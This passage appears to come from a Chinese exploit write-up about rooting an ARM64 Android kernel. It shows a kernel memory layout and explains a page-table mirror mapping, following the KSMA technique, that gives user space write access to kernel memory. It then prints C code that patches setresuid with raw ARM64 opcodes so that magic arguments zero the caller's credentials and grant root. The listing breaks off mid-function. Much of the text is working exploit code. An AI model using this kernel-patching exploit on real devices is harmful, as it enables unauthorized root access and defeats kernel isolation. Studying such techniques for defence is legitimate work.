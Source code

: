 对于我的操作系统，内存布局如下：

```
Virtual kernel memory layout:
 
    vmalloc : 0xffffff8000000000 - 0xffffffbdffff0000   (   247 GB)
 
    vmemmap : 0xffffffbe00000000 - 0xffffffbfc0000000   (     7 GB maximum)
 
              0xffffffbe00000000 - 0xffffffbe01500000   (    21 MB actual)
 
    PCI I/O : 0xffffffbffa000000 - 0xffffffbffb000000   (    16 MB)
 
    fixed   : 0xffffffbffbdfb000 - 0xffffffbffbdff000   (    16 KB)
 
    modules : 0xffffffbffc000000 - 0xffffffc000000000   (    64 MB)
 
    memory  : 0xffffffc000000000 - 0xffffffc060000000   (  1536 MB)
 
    .init : 0xffffffc00074d000 - 0xffffffc000789000   (   240 KB)
 
    .text : 0xffffffc000080000 - 0xffffffc0005dfcb0   (  5504 KB)
 
    .data : 0xffffffc00079a000 - 0xffffffc0007eca00   (   331 KB)

```

虚拟地址                                物理地址

0xffffffc000000000                 0x40000000  

0xffffffc060000000                 0xA0000000  

我们通过向内核页表中写入 block，形成如下映射，由于内核地址空间是在物理地址 0x40000000~0x80000000 之间，这样我们可以在用户态通过 0xffffffc200000000~0xffffffc240000000 访问整个内核地址空间，具体细节后面漏洞利用会再讲。

虚拟地址                                物理地址  

0xffffffc200000000                 0x40000000  

0xffffffc240000000                 0x80000000

现在我们可以任意的修改内核地址空间，为了实现 root，参考 [asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features](https://www.blackhat.com/docs/asia-18/asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features.pdf) 做法，修改 setresuid。

```
static patch_syscall(unsigned long mirror_kaddr)
{
    unsigned int *p = (unsigned int *)mirror_kaddr;
    *p = 0xd2822224; p++; //MOV X4, #0x1111
    *p = 0xEB04001F; p++; //CMP X0, X4
    *p = 0x54000261; p++; //BNE _ret
    *p = 0xD2844444; p++; //MOV X4, #0x2222
    *p = 0xEB04003F; p++; //CMP X1, X4
    *p = 0x54000201; p++; //BNE _ret
    *p = 0xD2866664; p++; //MOV X4, #0x3333
    *p = 0xEB04005F; p++; //CMP X2, X4
    *p = 0x540001a1; p++; //BNE _ret
    *p = 0x910003E0; p++; //MOV X0, SP
    *p = 0x9272C401; p++; //AND X1, X0, #0xffffffffffffc000
    *p = 0xF9400822; p++; //LDR X2, [X1, #0x10]
    *p = 0xF942EC43; p++; //LDR X3, [X2, #0x5D8]
    *p = 0x2900FC7F; p++; //STP WZR, WZR, [X3, #4]
    *p = 0x2901FC7F; p++; //STP WZR, WZR, [X3, #0xC]
    *p = 0x2902FC7F; p++; //STP WZR, WZR, [X3, #0x14]
    *p = 0x2903FC7F; p++; //STP WZR, WZR, [X3, #0x1C]
    *p = 0x92800001; p++; //MOV X1, #0xFFFFFFFFFFFFFFFF
    *p = 0xA9028461; p++; //STP X1, X1, [X3, #0x28]
```